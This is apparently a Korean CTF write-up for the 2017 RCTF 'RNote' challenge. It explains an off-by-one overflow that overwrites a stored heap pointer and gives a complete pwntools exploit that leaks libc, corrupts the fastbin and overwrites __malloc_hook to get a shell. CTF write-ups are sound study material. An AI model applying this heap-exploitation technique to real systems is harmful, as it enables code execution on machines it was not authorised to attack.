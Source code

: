 ```yaml
---
title: "2017 RCTF RNote"
date: 2020-3-2
ctf: RCTF
layout: post
---
```


title을 입력한걸 bss영역에 저장하고 bss영역에 힙주소를 저장해놓는데 여기에서 off by one취약점이 발생한다. title을 입력할 때 17바이트를 입력할 수 있다. 왜냐하면 i=0; i<=a2까지이기 때문이다. a2로 오는 인자 값은 16인데 17바이트만큼 입력해서 힙주소를 덮을 수 있다. 

```c
__int64 __fastcall sub_4009C7(__int64 a1, signed int a2)
{
  char buf; // [rsp+1Bh] [rbp-5h]
  unsigned int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; (signed int)i <= a2; ++i )
  {
    if ( read(0, &buf, 1uLL) < 0 )
      exit(1);
    *(_BYTE *)(a1 + (signed int)i) = buf;
    if ( *(_BYTE *)((signed int)i + a1) == 0xA )
    {
      *(_BYTE *)((signed int)i + a1) = 0;
      return i;
    }
  }
  return i;
}
```

unsorted bin attack으로 libc leak해주고 1,2,3번 청크가 있으면 1번 free, 2번 free하고 3번 청크가 1번 청크 주소로 바꾸고 dfb해주면 된다. 그리고 fastbin duplicate해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./RNote')
libc = e.libc
p = process('./RNote')
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
note = 0x00000000006020E0
note2 = 0x00000000006020F8

def add(size,title,content):
	sa(':','1')
	sa(':',str(size))
	sla(':',title)
	sla(':',content)

def delete(idx):
	sa(':','2')
	sa(':',str(idx))

def show(idx):
	sa(':','3')
	sa(':',str(idx))

add(256,'A'*8,'B'*8)
add(256,'C'*8,'D'*8)
delete(0)
add(256,'E'*8,'')
show(0)
p.recvuntil('\x7f')
libc_base = u64(p.recvuntil('\x7f')[-6:]+'\x00'*2) - 0x3c4b20 - 88
log.info('libc_base : {}'.format(hex(libc_base)))
malloc_hook = libc_base + libc.symbols['__malloc_hook']
log.info('__malloc_hook : {}'.format(hex(malloc_hook)))

delete(0)
delete(1)

add(0x60,'a','a') # 0
add(0x60,'b','b') # 1 
add(0x60,'c'*0x10+'\x10','c') # 2
p.recvuntil('Invaild choice')

delete(0)
delete(1)
delete(2)

add(0x60,'a',p64(malloc_hook-35))
add(0x60,'a','a')
add(0x60,'a',p64(malloc_hook-35))
add(0x60,'a','A'*19+p64(libc_base + 0xf1147))

sa(':','1')
sa(':','123')

p.interactive()
```

